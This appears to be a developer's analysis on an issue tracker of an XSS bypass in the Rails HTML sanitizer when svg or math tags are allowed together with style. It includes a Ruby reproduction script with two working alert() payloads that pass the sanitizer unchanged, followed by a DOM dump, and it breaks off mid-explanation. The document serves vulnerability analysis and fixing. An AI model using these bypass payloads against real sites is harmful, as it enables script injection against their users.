 Looking at [#1656627 Rails::Html::SafeListSanitizer vulnerable to XSS when certain tags are allowed (math+style || svg+style)](https://hackerone.com/reports/1656627) which describes a similar attack vector to CVE-2022-32209:

``` ruby
#! /usr/bin/env ruby

require "bundler/inline"

gemfile do
  source "https://rubygems.org"
  gem "rails-html-sanitizer", "=1.4.3" # contains the select/style fix
end

require "rails-html-sanitizer"

def sanitize(input, tags)
  Rails::Html::WhiteListSanitizer.new.sanitize(input, tags: tags)
end

input, tags = "<svg><style><script>alert(1);</script></style></svg>", %w(svg style)
sanitize(input, tags) # => "<svg><style><script>alert(1);</script></style></svg>"

input, tags = "<math><style><img src=x onerror=alert(1)></style></math>", %w(math style img)
sanitize(input, tags) # => "<math><style><img src=x onerror=alert(1)></style></math>"
```

In both of these cases, the HTML5 parser is put into a "foreign context" parsing mode that causes it to parse CDATA as PCDATA.


### the `svg` case

In the `svg` case, the HTML4 DOM is:

``` text
#(Element:0x5f0 {
  name = "body",
  children = [
    #(Element:0x604 {
      name = "svg",
      children = [ #(Element:0x618 { name = "style", children = [ #(CDATA "<script>alert(1)</script>")] })]
      }),
    #(Text "\n")]
  })]
```

serialized as:

``` html
<svg><style><script>alert(1)</script></style></svg>
```

The states that the HTML5 parser goes through as it parses this are roughly:
